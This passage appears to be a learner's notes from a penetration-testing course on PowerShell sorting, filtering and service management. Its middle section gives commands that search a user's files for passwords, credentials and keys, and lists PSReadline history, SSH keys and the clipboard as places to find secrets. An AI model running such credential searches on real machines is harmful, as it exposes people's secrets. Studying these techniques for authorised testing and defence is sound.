    1 True                      {MTanaka}
```

Sorting, grouping and filtering are all useful tools that will help us focus on the relevant data we are interested and throwing away the useless data we don't care about.

### Where
Sometimes what we are looking for might not be as clear to us as we would like, but we know sorta what we want. Say we are looking for a service and we know part of the name.

`Get-Service | where DisplayName -like '*Defender*'`

```
Status   Name               DisplayName
------   ----               -----------
Running  mpssvc             Windows Defender Firewall
Stopped  Sense              Windows Defender Advanced Threat Pr...
Running  WdNisSvc           Microsoft Defender Antivirus Networ...
Running  WinDefend          Microsoft Defender Antivirus Service
```

Here i prompted PowerShell that i was looking for a DisplayName -like "*Defender*" *note* that the search string is a regex. 

Like is not the only comparison operator we can use
* like
* Contains
* Equal
* Match
* Not

### Pipeline (|)
Like with bash the pipeline forwards the returned object and parses in as an argument to the statement afther the pipeline. You can chain maybe statements together like that:
`get-process | sort | unique | measure-object`

#### Chain Operators (&& and ||)
* && executes the next statement if the first statement succeeds 
* || executes the next statement if the first statement failed.

Only works with PowerShell 7 and above.


### Finding data within content
Say we are unable to bring in tools from the outside, how can we hunt for sensitive data? 

`Select-String` is a good place to start it functions much like grep.

Lets examine this string
`Get-Childitem –Path C:\Users\MTanaka\ -File -Recurse -ErrorAction SilentlyContinue | where {($_.Name -like "*.txt")}`

This will recursivly enumerate every subdir of the path given and while suppressing any errors we get will return any .txt file it finds. 

However txt files are not the only interesting file type on a system, so lets expand with some more types!

`Get-Childitem –Path C:\Users\MTanaka\ -File -Recurse -ErrorAction SilentlyContinue | where {($_.Name -like "*.txt" -or $_.Name -like "*.py" -or $_.Name -like "*.ps1" -or $_.Name -like "*.md" -or $_.Name -like "*.csv")}`

Using the or operator we now have a good change of finding some interesting files.

Now lets search some interesting files for string keywords!

`Get-ChildItem -Path C:\Users\MTanaka\ -Filter "*.txt" -Recurse -File | sls "Password","credential","key"`

I have reduced the scope of file searches for clarities sake. The txt files we do find we search for the strings Password, credential and key. 

### Good Places to look for Treasure

* Looking in a Users \AppData\ folder is a great place to start. Many applications store configuration files, temp saves of documents, and more.
* A Users home folder C:\Users\User\ is a common storage place; things like VPN keys, SSH keys, and more are stored. Typically in hidden folders. (Get-ChildItem -Hidden)
* The Console History files kept by the host are an endless well of information, especially if you land on an administrator's host. You can check two different points:
* C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
* Get-Content (Get-PSReadlineOption).HistorySavePath
* Checking a user's clipboard may also yield useful information. You can do so with Get-Clipboard
* Looking at Scheduled tasks can be helpful as well.

## Working with Services

### How do we interact with services in PowerShell?
Getting help works the same as usual

`Get-Help *-Service`

`Get-Service | ft DisplayName,Status` 

This return an easy to read table of serviceNames and their status.

This command will allow us to measure how many Services we have running
`Get-Service | where Status -match Running | measure`

I like cmd examples OK!
`Get-Service | where DisplayName -like '*Defender*' | ft DisplayName,ServiceName,Status`

`Start-Service WinDefend`
you can also stop and restart services

### Remote Services using PowerShell
Say we wanna interact with a remote host in our domain we simpy use the flag `-ComputerName` and enter the hostname 

```
PS C:\htb> get-service -ComputerName ACADEMY-ICL-DC

Status   Name               DisplayName
------   ----               -----------
Running  ADWS               Active Directory Web Services
Stopped  AppIDSvc           Application Identity
Stopped  AppMgmt            Application Management
Stopped  AppReadiness       App Readiness
Stopped  AppXSvc            AppX Deployment Service (AppXSVC)
Running  BFE                Base Filtering Engine
Stopped  BITS               Background Intelligent Transfer Ser...
<SNIP> 
```
Perhaps a filter is in order:
```
PS C:\htb> Get-Service -ComputerName ACADEMY-ICL-DC | Where-Object {$_.Status -eq "Running"}

Status   Name               DisplayName
------   ----               -----------
Running  ADWS               Active Directory Web Services
Running  BFE                Base Filtering Engine
Running  COMSysApp          COM+ System Application
Running  CoreMessagingRe... CoreMessaging
Running  CryptSvc           Cryptographic Services
Running  DcomLaunch         DCOM Server Process Launcher
Running  Dfs                DFS Namespace
Running  DFSR               DFS Replication
```

Now we would like to run a command on multiple hosts
```
PS C:\htb> invoke-command -ComputerName ACADEMY-ICL-DC,LOCALHOST -ScriptBlock {Get-Service -Name 'windefend'}

Status   Name               DisplayName                            PSComputerName
------   ----               -----------                            --------------
Running  windefend          Microsoft Defender Antivirus Service   LOCALHOST
Running  windefend          Windows Defender Antivirus Service     ACADEMY-ICL-DC
```
